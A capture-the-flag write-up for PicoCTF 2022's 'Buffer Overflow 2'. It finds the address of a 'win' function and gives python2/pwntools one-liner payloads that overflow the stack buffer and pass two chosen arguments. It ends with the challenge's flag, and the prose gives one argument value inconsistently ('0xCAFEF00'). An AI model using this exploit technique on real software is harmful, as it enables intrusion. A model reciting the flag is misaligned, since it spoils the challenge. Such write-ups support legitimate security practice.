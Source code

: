 # Buffer Overflow 2

First we need to see if it is vulnerable to buffer overflows:

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo21.png)

We are, from the source code we can see that we need to get to the function "win" so we can find its address like:

```
readelf -s vuln
```

This returns:

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo22.png)

The address is: 0x08049296

We can make it little endian like:

```
from pwn import *
print(p32(0x08049296))
```

This returns \x96\x92\x04\x08

We can try this payload:

```
python2 -c "from pwn import *; print 'A' * 112 + '\x96\x92\x04\x08'" | ./vuln
```

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo23.png)

This is good, we are reaching the **win** function, we just need to modify the parameters, we first create a "flag.txt" dummy file and continue testing.

We need "0xCAFEF00" in the first argument and "0xF00DF00D" in the second one. We also need both in little endian format. Lastly we need to put some dummy values as to jump the register that goes before the arguments.

The payload would look like:

```
python2 -c "from pwn import *; print 'A' * 112 + '\x96\x92\x04\x08' + 'AAAA' + p32(0xCAFEF00D) + p32(0xF00DF00D)  " | ./vuln
```

![image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/PicoCTF%202022/Images/bo24.png)

## Flag

> picoCTF{argum3nt5_4_d4yZ_920d6844}